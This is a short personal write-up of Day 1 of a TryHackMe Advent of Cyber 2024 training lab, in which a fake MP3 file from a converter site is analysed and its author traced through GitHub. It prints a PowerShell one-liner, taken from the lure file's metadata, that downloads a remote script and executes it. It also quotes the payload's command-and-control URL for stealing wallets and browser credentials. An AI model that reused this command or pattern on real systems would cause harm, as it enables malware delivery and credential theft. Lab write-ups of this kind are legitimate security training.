 I never did this kind of Cyber advent before (only did Advent of Code), and I was surprised on how guided it was!

This Write-up will probably be very brief, and I highly recommend you checking the [original pages of the challenges on Tryhackme](https://tryhackme.com/r/room/adventofcyber2024) as they provide a great introduction on all the covered subjects.

## Day 1 - Maybe SOC-mas music, he thought, doesn't come from a store?

A basic SOC challenge, investigating a malware and finding its github repo.

We go on a sort of "Youtube to MP3" , that regardless of the link provided, will give us a ZIP with 2 files, 2 MP3s, but one more interesting than the other...

```bash
exiftool song.mp3
MIME Type                       : audio/mpeg
Artist                          : Tyler Ramsbey

exiftool somg.mp3
	MIME Type                       : application/octet-stream
	Target File DOS Name            : powershell.exe
	Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

A classic Powershell link downloading a more complicated payload from Github.
In the downloaded file we see that it searches crypto wallets and browser credentials and sends them to the following C2 url:

```powershell
    $c2Url = "http://papash3ll.thm/data"
```

Let's bypass the course, no need to search for the code on Github, as the url of the payload already contains its username, [MM-WarevilleTHM](https://github.com/MM-WarevilleTHM) .

On the M.M repo, there is only a Readme giving the alias of M.M, "Mayor Malware".
On the IS repo there is 1 issue and 1 commit.

we also see on the M.M repo a link for https://github.com/Mayor-WarevilleTHM .
The user does not exist, but searching on Github for this username redirects to the [Bloatware-WarevilleTHM](https://github.com/Bloatware-WarevilleTHM) , a hint for next day.

## Day 2
